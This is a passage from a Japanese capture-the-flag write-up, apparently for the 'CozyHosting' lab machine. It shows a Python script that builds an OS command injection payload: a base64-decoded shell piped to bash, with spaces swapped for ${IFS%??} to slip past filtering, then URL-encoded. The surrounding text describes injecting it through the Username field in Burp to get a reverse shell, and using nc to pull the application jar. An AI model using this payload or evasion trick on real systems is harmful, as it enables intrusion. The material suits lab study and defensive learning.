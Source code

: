 ```python
b64_shell = base64.encode(shell_string.encode('ascii')).decode('ascii')
print("Base64 encoded shell code >> ")
print('    ', b64_shell)

exploit = f";echo {b64_shell} | base64 -d | bash;"
print("Exploit >> ")
print('    ', exploit)

exploit = exploit.replace(" ", "${IFS%??}")
print("Replace ' ' to '${IFS%??}' >> ")
print('    ', exploit)

exploit_urlenc = urllib.parse.quote(exploit)
print("Url encoded exploit >>")
print('    ', exploit_urlenc)

print("Output:")
print(exploit_urlenc)
```

この実行結果が以下となる。

![](./img/CozyHosting18.png)


このスクリプトの実行結果のOutputを利用してUsernameをBurpで書き換える。

![](./img/CozyHosting19.png)
![](./img/CozyHosting20.png)
![](./img/CozyHosting21.png)

するとリバースシェルが確立されて、OS Command Injectionに成功する。

![](./img/CozyHosting22.png)

---

## 4. Web ApplicationとDatabaseの解析

3の結果から、シェルは獲得できたが同時に`app`ユーザしか持っていない。
そのため、ここから他のユーザへの権限昇格を行なっていく。

### 4.1 Web Applicationの解析

`app`ディレクトリにWeb Applicationのjarファイルが保存されている。
そのため、これをダウンロードして解析していく。

まずは、`nc`コマンドでダウンロードを実施。

![](./img/CozyHosting23.png)

![](./img/CozyHosting24.png)
